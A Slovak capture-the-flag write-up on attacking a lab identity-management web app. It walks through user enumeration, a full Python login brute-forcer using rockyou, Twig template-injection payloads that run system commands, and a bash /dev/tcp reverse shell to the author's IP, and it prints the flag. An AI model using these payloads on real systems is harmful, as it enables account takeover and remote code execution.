

# Zadanie

Hi, emergency troubleshooter,

we urgently need to replace the outdated identity management system with a new progressive solution. Verify that it is functioning properly and that no information leakage is occurring. New instance is running on server `idm-new.powergrid.tcc`.

**Hints**

- Even if you find what you are looking for, you must use brut(al) force to get it!

## Riešenie

Na stránke na nás kričí hláška 

> ##### Welcome to the Company Role Management System
> 
> ###### This portal is used for managing internal access roles tied to LDAP and Active Directory accounts. Please log in to view your roles or request access.
> 
> **Login** **Sign Up**

Registrácia je zablokovaná, doslova nám vracia 404, keď odblokujeme disabled elementy a pokusíme sa odoslať žiadosť o registráciu.

Login pýta e-mail a heslo, ale e-mail nie je taký jednoduchý brutnúť. Tých možností je skrátka príliš veľa. Je nutné pozrieť, či web neskrýva nejaké zaujímavé endpointy.

Podľa gobustera máme dostupné tieto endpointy

```
/announcement         (Status: 200) [Size: 4202]
/index.php            (Status: 200) [Size: 1813]
/index.php            (Status: 200) [Size: 1813]
/js                   (Status: 301) [Size: 327] [--> http://idm-new.powergrid.tcc/js/]
/login                (Status: 200) [Size: 2539]
/logout               (Status: 302) [Size: 362] [--> http://idm-new.powergrid.tcc/]
/styles               (Status: 301) [Size: 331] [--> http://idm-new.powergrid.tcc/styles/]
/user                 (Status: 200) [Size: 3060]
```

V podstránke /announcement sú takéto oznamy.

> **Title:** Announcement 1
> 
> **Author:** [test](http://idm-new.powergrid.tcc/announcement#)
> 
> **Content:** Welcome to our platform! This is a static preview of how future dynamic announcements will appear.
> 
> **Title:** Announcement 2
> 
> **Author:** [admin42](http://idm-new.powergrid.tcc/announcement#)
> 
> **Content:** System maintenance will occur on Sunday between 02:00–04:00 UTC. Expect brief downtime.
> 
> **Title:** Announcement 3
> 
> **Author:** [dev_alpha](http://idm-new.powergrid.tcc/announcement#)
> 
> **Content:** Feature rollout coming soon. Stay tuned for our new leaderboard and badge system!
> 
> **Title:** Announcement 4
> 
> **Author:** [sys_bot](http://idm-new.powergrid.tcc/announcement#)
> 
> **Content:** Reminder: Keep your credentials secure. Never share your password or token with others.
> 
> **Title:** Announcement 5
> 
> **Author:** [guest](http://idm-new.powergrid.tcc/announcement#)
> 
> **Content:** This forum is under active development. If you're reading this, you might already be ahead!

Zdroják však ukrýva zakomentované odkazy na profily jednotlivých userov.

```html
<div class="example-wrapper">

    <div class="announcement">
        <p><strong>Title:</strong> Announcement 1</p>
        <p><strong>Author:</strong> <a href="#">test</a></p> <!-- <a href="/user/1337">test</a> -->
        <p><strong>Content:</strong> Welcome to our platform! This is a static preview of how future dynamic announcements will appear.</p>
    </div>

    <div class="announcement">
        <p><strong>Title:</strong> Announcement 2</p>
        <p><strong>Author:</strong> <a href="#">admin42</a></p> <!-- <a href="/user/42">admin42</a> -->
        <p><strong>Content:</strong> System maintenance will occur on Sunday between 02:00–04:00 UTC. Expect brief downtime.</p>
    </div>

    <div class="announcement">
        <p><strong>Title:</strong> Announcement 3</p>
        <p><strong>Author:</strong> <a href="#">dev_alpha</a></p> <!-- <a href="/user/7">dev_alpha</a> -->
        <p><strong>Content:</strong> Feature rollout coming soon. Stay tuned for our new leaderboard and badge system!</p>
    </div>

    <div class="announcement">
        <p><strong>Title:</strong> Announcement 4</p>
        <p><strong>Author:</strong> <a href="#">sys_bot</a></p> <!-- <a href="/user/88">sys_bot</a> -->
        <p><strong>Content:</strong> Reminder: Keep your credentials secure. Never share your password or token with others.</p>
    </div>

    <div class="announcement">
        <p><strong>Title:</strong> Announcement 5</p>
        <p><strong>Author:</strong> <a href="#">guest</a></p> <!-- <a href="/user/404">guest</a> -->
        <p><strong>Content:</strong> This forum is under active development. If you're reading this, you might already be ahead!</p>
    </div>

    <button class="show-more" disabled>Show more (coming soon)</button>
</div>
```

Ako príklad uvediem obsah usera s id 1

> #### User Profile
> 
> **Username:** jack.henderson
> 
> **Email:** jack.henderson@powergrid.tcc
> 
> **Roles:**
> 
> ROLE_USER

Jednoduchou enumeráciou získam aktívnych používateľov s ich e-mailami a priradenými rolami.

```json
{
    "1": {    "username": "jack.henderson",
            "email": "jack.henderson@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "2": {    "username": "emma.taylor",
            "email": "emma.taylor@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "3": {    "username": "oliver.wilson",
            "email": "oliver.wilson@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "4": {    "username": "sophia.evans",
            "email": "sophia.evans@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "5": {    "username": "liam.moore",
            "email": "liam.moore@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "6": {    "username": "ava.walker",
            "email": "ava.walker@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "7": {    "username": "noah.james",
            "email": "noah.james@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "8": {    "username": "mia.hall",
            "email": "mia.hall@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "9": {    "username": "lucas.young",
            "email": "lucas.young@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "10": {    "username": "amelia.king",
            "email": "amelia.king@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "11": {    "username": "ethan.scott",
            "email": "ethan.scott@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "12": {    "username": "isabella.green",
            "email": "isabella.green@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "13": {    "username": "logan.adams",
            "email": "logan.adams@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "14": {    "username": "charlotte.baker",
            "email": "charlotte.baker@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "15": {    "username": "mason.nelson",
            "email": "mason.nelson@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "16": {    "username": "harper.carter",
            "email": "harper.carter@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "17": {    "username": "elijah.roberts",
            "email": "elijah.roberts@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "18": {    "username": "abigail.morris",
            "email": "abigail.morris@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "19": {    "username": "james.murphy",
            "email": "james.murphy@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "20": {    "username": "emily.rogers",
            "email": "emily.rogers@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "21": {    "username": "benjamin.cook",
            "email": "benjamin.cook@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "22": {    "username": "ella.reed",
            "email": "ella.reed@powergrid.tcc",
            "roles": [ "ROLE_ADMIN", "ROLE_USER" ] },
    "23": {    "username": "jacob.bennett",
            "email": "jacob.bennett@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "24": {    "username": "scarlett.bell",
            "email": "scarlett.bell@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "25": {    "username": "michael.ward",
            "email": "michael.ward@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "26": {    "username": "lily.cooper",
            "email": "lily.cooper@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "27": {    "username": "alexander.richardson",
            "email": "alexander.richardson@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "28": {    "username": "sofia.hughes",
            "email": "sofia.hughes@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "29": {    "username": "william.foster",
            "email": "william.foster@powergrid.tcc",
            "roles": [ "ROLE_USER" ] },
    "30": {    "username": "chloe.sanders",
            "email": "chloe.sanders@powergrid.tcc",
            "roles": [ "ROLE_USER" ] }
}
```

Jeden používateľ vyčnieva z radu. Je to používateľ ID 22 `ella.reed` s e-mailom `ella.reed@powergrid.tcc`, ktorý, resp. ktorá má rolu admin.

Heslo samozrejme neviem, tak opäť brute-force. Pri pokuse s použítím ffuf a rovnakým csrf tokenom v request forme sa po cca 100 heslách prestala stránka so mnou baviť, tak treba nejaký skript, ktorý zbiera csrf token po každom pokuse o prihlásenie a s každným novým pokusom posiela aj v požiadavke aktuálny.

```python
import requests
from bs4 import BeautifulSoup
import time
import sys

# Konfigurácia
URL = "http://idm-new.powergrid.tcc/login"
USERNAME = "ella.reed@powergrid.tcc"
ROCKYOU_PATH = "rockyou.txt"
MAX_RETRIES = 5

session = requests.Session()

def get_csrf_token():
    try:
        response = session.get(URL)
        soup = BeautifulSoup(response.text, 'html.parser')
        csrf_input = soup.find('input', {'name': '_csrf_token'})
        if csrf_input:
            return csrf_input.get('value')
        return None
    except Exception as e:
        print(f"[!] Chyba pri získavaní CSRF tokenu: {e}")
        return None

def try_login(password, attempt=1):
    if attempt > MAX_RETRIES:
        print(f"[!] Prekročený limit pokusov pre heslo: {password}")
        return False

    csrf_token = get_csrf_token()
    if not csrf_token:
        print(f"[!] Nepodarilo sa získať CSRF token, pokus {attempt}/{MAX_RETRIES}")
        time.sleep(1)
        return try_login(password, attempt + 1)

    data = {
        '_username': USERNAME,
        '_password': password,
        '_csrf_token': csrf_token
    }

    try:
        response = session.post(URL, data=data, allow_redirects=False)

        if 'Location' in response.headers:
            location = response.headers['Location']

            if location != "http://idm-new.powergrid.tcc/login":
                return True

        return False

    except Exception as e:
        print(f"[!] Chyba pri pokuse o prihlásenie: {e}, pokus {attempt}/{MAX_RETRIES}")
        time.sleep(1)
        return try_login(password, attempt + 1)

def main():
    print(f"[*] Začínam brute-force útok na {URL}")
    print(f"[*] Používateľ: {USERNAME}")
    print(f"[*] Slovník: {ROCKYOU_PATH}")
    print("-" * 60)

    try:
        with open(ROCKYOU_PATH, 'r', encoding='utf-8', errors='ignore') as f:
            for line_num, line in enumerate(f, 1):
                password = line.strip()

                if not password:
                    continue

                print(f"[{line_num}] Skúšam: {password[:30]}{'...' if len(password) > 30 else '          '}", end='\r')

                if try_login(password):
                    print(f"\n[+] ÚSPECH! Heslo nájdené: {password}")
                    print(f"[+] Používateľ: {USERNAME}")
                    print(f"[+] Heslo: {password}")
                    return

                time.sleep(1)

    except FileNotFoundError:
        print(f"\n[!] Súbor {ROCKYOU_PATH} nebol nájdený!")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\n[!] Prerušené používateľom")
        sys.exit(0)

    print("\n[-] Heslo nenájdené v slovníku")

if __name__ == "__main__":
    main()
```

Po pár minútach hitlo heslo na pozícii 197

```
$ python idmbf.py
[*] Začínam brute-force útok na http://idm-new.powergrid.tcc/login
[*] Používateľ: ella.reed@powergrid.tcc
[*] Slovník: rockyou.txt
------------------------------------------------------------
[197] Skúšam: 123abc
[+] ÚSPECH! Heslo nájdené: 123abc
[+] Používateľ: ella.reed@powergrid.tcc
[+] Heslo: 123abc
```

Admin dashboar píše

> You have administrative privileges. You can:
> 
> - Manage users and assign roles
> - View and audit access logs
> - Configure AD/LDAP integrations

A pod tým je tlačidlo na `Manage Users`, kde je search bar a tlačislo `Search`. Po zadaní bodky na mňa vypľulo celý zoznam aktývných používateľov.



zrejme je tam SQL query s výrazom LIKE. 

Mám vraj možnosť meniť roly používateľov, ale akonáhle to chcem niekomu zmeniť, tak mi vyskočí hláška `This feature is disabled at the moment...`

Skúšal som zmeniť telo požiadavky a poslať napríklad `ROLE_SUPERADMIN`, ale neurobilo to nič.

Skúsil som poslať požiadavku namiesto `http://idm-new.powergrid.tcc/admin/users/1/add-role` na `http://idm-new.powergrid.tcc/admin/users/./add-role` a vyhodilo hlášku

> # Oops! An Error Occurred
> 
> ## The server returned a "404 Not Found".
> 
> Something is broken. Please let us know what you were doing when this error occurred. We will fix it as soon as possible. Sorry for any inconvenience caused.

Po pár dňoch som zistil, že sa jedná o web vyrobený pomocou symfony, stačilo chybovú 404 hlášku hodiť do google a hneď prvá stránka, [php - Oops! An Error Occurred The server returned a &quot;404 Not Found&quot;. Symfony - Stack Overflow](https://stackoverflow.com/questions/43425837/oops-an-error-occurred-the-server-returned-a-404-not-found-symfony) prezradila, že sa jedná o symfony..

Po googlení zraniteľností je jedna z najviac spomínaná SSTI a teda `Server Side Template Injection`. Tak som skúsil zadať do searchboxu `{{ 7*7 }}` a vyskočila hláška `No users found for query: 49`. Bingo.

`{{ app.request.server.get('PWD') }}` vrátilo `No users found for query: /var/www/app`. Poradím sa s claude

`{{ ['id']|filter('system') }}` vrátilo `No users found for query: uid=33(www-data) gid=33(www-data) groups=33(www-data) Array` a tu už ide do tuhého, vykonávam príkazy.

Pripravím si penelope, ip mám teraz `10.200.0.44` a počúvam na porte 9010, skúsim spawnuť shell poslaním `{{['bash -c "bash -i >& /dev/tcp/10.200.0.44/9010 0>&1"']|filter('system')}}` a podarilo sa.

```shell
www-data@9e655f36c265:~/app/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Tu som to prehľadal krížom krážom a nakoniec bola vlajka v enviromentálnych premenných. Stačilo zavolať príkaz `set` ktorý vylistoval všetky premenné a jedna s názvom `FLAG` obsahovala vlajku.

```shell
www-data@9e655f36c265:~/app/public$ echo $FLAG
RkxBR3tUaEtILWRxaW8tNDlBWC1TWmxHfSAK
```

ešte dekódujem

```shell
www-data@9e655f36c265:~/app/public$ echo $FLAG | base64 -d
FLAG{ThKH-dqio-49AX-SZlG}
```

## Vlajka

    FLAG{ThKH-dqio-49AX-SZlG}
